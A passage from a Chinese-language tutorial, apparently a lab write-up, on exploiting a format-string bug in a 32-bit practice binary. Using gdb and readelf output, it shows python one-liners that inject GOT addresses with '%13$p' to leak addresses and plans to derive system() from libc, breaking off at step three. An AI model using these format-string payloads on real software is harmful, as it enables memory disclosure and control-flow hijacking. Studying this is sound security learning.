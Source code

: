 ```
Breakpoint 1, 0xf7e50030 in printf () from /lib32/libc.so.6
gdb-peda$ c
Continuing.
*���.ABCD
[Inferior 1 (process 57148) exited with code 012]
```

栈中的第13个位置存放的是0xffffce2a，即我们输入的格式化字符串的第一部分，然后使用%s输出这个地址中的字符串内容ABCD

我们真正经常用到的地方是，把程序中某函数的 GOT 地址传进去，然后获得该地址所对应的函数的虚拟地址。然后根据函数在 libc 中的相对位置，计算出我们需要的函数地址（如 `system()`）

第一步：查看重定向表

```
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ readelf -r formatSee

Relocation section '.rel.dyn' at offset 0x2e8 contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000206 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x2f0 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000307 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   putchar@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

第二步：`.rel.plt` 中有四个函数可供我们选择，逐个尝试

```
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python -c 'print("\x0c\xa0\x04\x08"+".%13$p")' | ./formatSee 
�.0x2e0804a0
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python -c 'print("\x10\xa0\x04\x08"+".%13$p")' | ./formatSee 
�.0x804a010
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python -c 'print("\x14\xa0\x04\x08"+".%13$p")' | ./formatSee 
�.0x804a014
dililearngent@dililearngent-virtual-machine:~/Desktop/format$ python -c 'print("\x18\xa0\x04\x08"+".%13$p")' | ./formatSee 
�.0x804a018
```

发现第一个最后输出的地址不是我们输入的地址，原因如下：

```
Oct   Dec   Hex   Char
──────────────────────────────────────
014   12    0C    FF  '\f' (form feed)
```

有特殊含义，还有**`\x07`（’\a’）、`\x08`（’\b’）、`\x20`（SPACE）**等

第三步：选择 __isoc99_scanf
